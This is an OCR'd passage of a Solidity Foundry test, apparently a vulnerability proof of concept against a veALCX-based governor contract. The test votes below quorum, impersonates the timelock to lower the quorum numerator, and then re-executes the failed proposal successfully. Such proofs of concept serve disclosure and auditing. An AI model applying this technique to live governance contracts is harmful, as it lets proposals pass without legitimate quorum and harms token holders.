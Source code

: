 ```solidity
            
            assertGt(quorum, votingPower, "quorum should be greater than voting power");
        }

        // 3. Creating a Proposal

        hevm.startPrank(admin);
        uint256 pid = governor.propose(t, v, c, d, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();
        
        // 4. Voting in favour of proposal

        hevm.startPrank(dead);
        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // 5. Revert on executing the proposal because quorum not reached

        hevm.startPrank(admin);
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);

        hevm.stopPrank();

        // 6. Updating quorum numerator to 11% from 20%.

        {
            // Get the address of the Timelock (the executor)        
            address executor = address(governor.timelock());
            uint256 newQuorumNumerator = 1100;

            // Prepare the calldata
            bytes memory calldataRequired = abi.encodeWithSelector(
                bytes4(
                    keccak256("updateQuorumNumerator(uint256)")
                ),
                newQuorumNumerator
            );

            // Add it to the queue
            governor.pushCalldata(calldataRequired);

            hevm.startPrank(address(executor));

            // Impersonate the executor and call the function
            governor.updateQuorumNumerator(uint256(newQuorumNumerator));

            hevm.stopPrank();
        }

        // 7. Again Executing the past proposal, which gets execute successfully where it shouldn't
        {
            // execute
            hevm.startPrank(admin);

            uint256 votingPowerNew = veALCX.getVotes(dead);
            console2.log("Final Voting Power:   ",votingPowerNew);

            uint256 quorumNew = governor.quorum(block.timestamp);
            console2.log("Final Quorum:         ",quorumNew);
```